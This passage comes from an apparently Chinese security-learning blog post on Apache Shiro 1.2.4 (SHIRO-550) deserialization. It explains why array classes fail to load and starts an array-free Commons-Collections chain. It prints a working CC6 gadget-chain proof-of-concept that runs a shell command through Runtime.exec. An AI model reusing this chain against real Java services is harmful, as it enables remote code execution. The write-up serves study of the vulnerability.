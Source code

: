 resolveClass 是反序列化中用来查找类的方法，简单来说，读取序列化流的时候，读到一个字符串形式的类名，需要通过这个方法来找到对应的 java.lang.Class 对象。而区别于我们默认的`resolveClass()`方法（使用了`Class.forName()`来找到Class），他使用了自定义的`ClassUtils.forName()`来搜寻Class对象。这里背后的调用关系其实还非常复杂（涉及到了Tomcat的一些机制），这里我就先不研究了。具体可以去参考这两位师傅的文章：

[强网杯“彩蛋”——Shiro 1.2.4(SHIRO-550)漏洞之发散性思考](https://blog.zsxsoft.com/post/35)

[Shiro-1.2.4-RememberMe 反序列化踩坑深入分析](https://xz.aliyun.com/t/7950#toc-3)

直接引用他人的结论：Shiro 加载 Class 最终调用的是 `Tomcat` 下的 `webappclassloader`，该类会使用 `Class.forName()` 加载数组类，但是使用的 classloader 是 `URLClassLoader`，只会加载 `tomcat/bin`、`tomcat/lib`、`jre/lib/ext` 下面的类数组，无法加载三方依赖 jar 包。总之，**如果反序列化流中包含非 Java 自身的数组，则会出现无法加载类的错误**。

对这个问题的解决，一个方案就是采用JRMP解决（[Shiro-1.2.4-RememberMe 反序列化踩坑深入分析](https://xz.aliyun.com/t/7950#toc-3)，[Pwn a CTF Platform with Java JRMP Gadget](https://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html)），但是由于我目前还没学到JRMP，就先不去探究这种攻击方法了。

### 无数组类CC链

首先我们来回忆下之前我们CC6的POC

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(
  new Transformer[]{new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                    new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), 'a');
hashMap.put(mapentry,'b');
Field mapfield = TiedMapEntry.class.getDeclaredField("map");
mapfield.setAccessible(true);
mapfield.set(mapentry,lazymap);
serialize(hashMap);
unserialize();
```

我们之所以要用LazyMap的原因是因为LazyMap的get方法中会执行transform方法：

```java
public Object get(Object key) {
  // create value for key if key is not currently in the map
  if (map.containsKey(key) == false) {
    Object value = factory.transform(key);
    map.put(key, value);
    return value;
  }
  return map.get(key);
}
```

通过LazyMap.decorate又可以成功给factory属性进行赋值进而实现命令执行，但是我们注意到，get()方法其实还接受一个参数key并将其作为参数传递给了transform()方法，只不过之前我们不关心这个key的原因是我们在构造ChainedTransformer的时候已经利用ConstantTransformer将我们的ChainedTransformer变成对参数不敏感的了。
